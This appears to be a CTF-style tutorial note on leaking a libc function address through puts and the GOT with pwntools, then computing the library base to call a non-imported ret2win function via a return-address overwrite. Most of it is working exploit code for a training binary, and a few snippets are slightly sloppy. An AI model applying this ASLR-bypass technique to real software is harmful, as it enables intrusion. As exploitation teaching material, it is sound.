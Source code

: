 # Leak an Address

Use `printf` or `puts` to print out a function address from libc.  
Can then calculate the offset of that function from the base.  
Calculate the offset of a desired function and add that to the libc base,  
you can then call that function directly.  

`readelf -s <libc_path>` will show function offsets.  

## Address Leak to Call a Non-Imported Function

*Setup: a desired function is in a shared library but is not called in the binary.*  
*The binary calls a different function from the shared library*  

Use `readelf` to determine the target functions offset from the library base:  

```bash
readelf -s libpivot32.so
```

Then find the offsets for the target function and the foothold function.  

Use pwntools to load some known addresses:  

```python3
from pwn import *
elf = ELF(".vuln")

foothold_plt = p32(elf.plt.foothold_function)   # Function from the shared library
foothold_got = p32(elf.got.foothold_function)   # Function from the shared library
puts_plt = p32(elf.plt.puts)                    # function we can use to cause a leak
main_ptr = p32(elf.symbols.main)                # needed to rerun the program and maintain address values

foothold_offset = 0x77d
ret2win_offset = 0x974
```

Leak the address:  

```python3
addr_leak = ([
    foothold_plt,   # Populate the Global Offset Table with addresses. The inmported function from the shared library is used.
    puts_plt,       # Use puts to output the address of foothold_function in the Global Offset Table
    main_ptr,       # Run main again so that we can provide a new payload to call the target function
    foothold_got    # Argument for puts, the address to leak
])
io.sendline(addr_leak)
```

Receive the output of `puts` and carve out the address:  

```python3
io.recvuntil(b"whatever\n")   # bytes preceeding the leak
leaked_addresses = io.recv()    # receive data until the next input. Likely to contain more than 1 address -> the first is the one we want
foothold_leak = unpack(leaked_addresses[:4])    # read the first 4 bytes (32bit address. [:8] for 64bit addresses
```

Calculate the offset to the desired function by first calculating the shared libraries base,  
then adding the offset to the desired function:  

```python3
lib_base = foothold_leak - foothold_offset    # subtracting the offset to foothold_function (found by readelf) from the leaked foothold_function address in the GOT
ret2win_addr = lib_base + ret2win_offset      # adding the libraries base address and the offset to the target function, resulting in the actual address
```

The target functions address can now be placed on the stack, where a return address is overwritten:  

```python3
win = flat([
    b"A" * offset,
    ret2win_addr
])
io.sendline(win)
```
